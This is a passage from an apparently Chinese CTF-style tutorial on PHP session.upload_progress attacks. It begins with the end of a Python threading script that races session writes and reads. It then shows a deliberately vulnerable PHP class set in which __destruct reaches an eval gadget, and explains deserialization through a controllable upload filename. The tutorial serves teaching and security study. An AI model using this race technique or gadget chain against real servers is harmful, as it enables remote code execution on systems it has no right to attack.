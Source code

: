 ```python
    with requests.session() as session:
        for i in range(1,30): 
            threading.Thread(target=write,args=(session,)).start()
        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210524232554536.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## 利用session.upload_progress进行反序列化攻击

利用条件主要是存在session反序列化漏洞

```php
示例代码

<?php
error_reporting(0);
date_default_timezone_set("Asia/Shanghai");
ini_set('session.serialize_handler','php');
session_start();
class Door{
    public $handle;
​
    function __construct() {
        $this->handle=new TimeNow();
    }
​
    function __destruct() {
        $this->handle->action();
    }
}
class TimeNow {
    function action() {
        echo "你的访问时间:"."  ".date('Y-m-d H:i:s',time());
    }
}
class  IP{
    public $ip;
    function __construct() {
        $this->ip = 'echo $_SERVER["REMOTE_ADDR"];';
    }
    function action() {
        eval($this->ip);
    }
}
?>
```

分析
- **整个代码没有参数可控的地方，通过什么方法来进行反序列化利用**：
这里，利用PHP_SESSION_UPLOAD_PROGRESS上传文件，其中利用文件名可控，从而构造恶意序列化语句并写入session文件；另外，与文件包含利用一样，也需要进行竞争
